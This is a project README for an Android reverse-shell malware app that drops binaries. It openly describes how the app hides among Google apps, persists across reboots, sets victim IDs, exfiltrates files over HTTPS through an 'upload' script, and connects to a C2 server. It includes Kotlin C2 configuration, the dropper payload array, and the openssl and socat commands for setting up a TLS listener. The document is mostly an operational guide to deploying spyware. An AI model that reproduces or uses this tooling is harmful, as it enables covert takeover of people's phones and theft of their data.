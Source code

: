 # revshellSdk28
This is my Android Reverse Shell with dropping capabilities.

The idea was to create a Termux-like environment with a main APK with core functionality, capable of dropping additional executables and scripts.

## Features
- **Secure TLS shell**
- **Persistent** over time and reboots
- **Hidden** and camouflaged with Google apps
- **Drops additional statically linked executable and scripts** based on CPU architecture

Executable and scripts integrated by default:
- `socat` (aarch64 and x86/x64)
- `curl` (aarch64 and x86/x64)
- custom script for file exfiltration over HTTPS (`uplaod`, a file receiver is included in this project; see "httpServerFileReceiver" folder)
- custom script to get device public IP (`ipinfo`)
- custom script to override `whoami` and set a custom "victim id" (`whoami`)

## Screenshots
This is the Reverse Shell in action. On the right side you can see the device app drawer: can you guess where is the malicious app? From a visual perspective the reverse shell is perfectly camouflaged with other Google Apps.

![screenshot1](screenshot1.png)

Unfortunately, to guarantee persistence, the app must show a persistent notification (as sneaky as possible):

![screenshot2](screenshot2.png)

On notification/app opening the user will be redirected to a Google support page:

![screenshot3](screenshot3.png)

## Technical details

### execve

This app is able to execute ELF files using `execve` function. The usage of this function is forbidden on Android Q or higher (API level *>28*).

For more details: https://android-review.googlesource.com/c/platform/system/sepolicy/+/804149

So, in order to compile this app, a target API level between 26 and 28 must be set. This, of course, resulted in a number of limitations so that certain features could not be included or used within the app.

### Statically linked binaries

On the target device there is no possibility to include any sort of dependency for the executable files or compile them from source so the malicious app drops **statically linked binaries** included in the APK at compile time.

To add more binaries you must:
- encode the binary to Base64
- put the encoded file in `./revshellSdk28/app/src/main/res/raw` folder
- modify `./revshellSdk28/app/src/main/java/org/android/settings/Dropper.kt`

  example:
  ```
              val payloads = arrayOf(
                arrayOf("aarch64", "socat" , readRawTextResource(context, R.raw.socat_aarch64)),
                arrayOf("aarch64", "curl"  , readRawTextResource(context, R.raw.curl_aarch64)) ,
                arrayOf("x86_64" , "socat" , readRawTextResource(context, R.raw.socat_x86_64)) ,
                arrayOf("x86_64" , "curl"  , readRawTextResource(context, R.raw.curl_x86_64))  ,
                arrayOf("any"    , "whoami", readRawTextResource(context, R.raw.whoami))       ,
                arrayOf("any"    , "ipinfo", readRawTextResource(context, R.raw.ipinfo))       ,
                arrayOf("any"    , "upload", readRawTextResource(context, R.raw.upload))
            )
  ```
  including (in order) the following parameters:
    - a specific architecture (aquired on the target machine using `uname -m`) or "any"
    - filename that will be written on device storage
    - name of the Resource File in the Android Project

Binaries included by default are not compiled by me! You can find these on various Github repos. Following, some examples:
- https://github.com/polaco1782/linux-static-binaries
- https://github.com/ryanwoodsmall/static-binaries
- https://github.com/mosajjal/binary-tools
- https://github.com/andrew-d/static-binaries

### Command and Control settings
In order to set your C2 server you must modify `./revshellSdk28/app/src/main/java/org/android/settings/MainMaliciousCode.kt`.

You can use an IP or an hostname. Example:
```
    object C2 {
        //const val IP    = "myc2.server.it"
        const val IP    = "123.123.123.123"
        const val RPORT = 443
        const val RETRY = 5
    }
```
Ofcourse you must use a **public address**, set **port forwarding** and firewall rules on your router. Additionally, you can use DNS, Ngrok and other services for reachability and to route your traffic but **how to set this configurations or use those services is out of the scope of this documentation!**

### How to start a session
1. Generate a certificate for the TLS connection on your C2 server:
```
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -out bind.crt
cat bind.key bind.crt > bind.pem
```
2. Create a listener with your favourite tool. Example:
```
sudo socat -d -d OPENSSL-LISTEN:443,cert=bind.pem,verify=0,fork STDOUT
```
Note: this app is not designed to work in a multi-client environment. The easiest thing you can do to use it with multiple devices is to use a different IP port for each infected machine and change the content of `./revshellSdk28/app/src/main/res/raw/whoami` to set a recognizable name for the victim system.

### Notes on the `upload` script
This script permits file exfiltration over HTTPS. 

To perform this task the file is first Urlencoded then uploaded using `curl` with `--insecure` and `--dns-servers` flags.

If the request return `200 OK` the file is already on the server so it's not uploaded again.

The file is located in `./revshellSdk28/app/src/main/res/raw/upload` and **you must modify it to set your C2 server!**

Note: **a simple Python HTTP file receiver is included in this project. See "httpServerFileReceiver" folder. Put your certificate in "https" subfolder. Received files are located in "files" subfolder. Edit "server.py" as you wish.**


### Notes on DNS configuration
In the app environment there is no DNS configuration so in order to perform a connection with certain executables you must use an IP or set the DNS Server manually.

For example to use Curl you must use the `--dns-servers` flag.

Example: `curl --dns-servers 8.8.8.8,8.8.4.4 https://google.com`
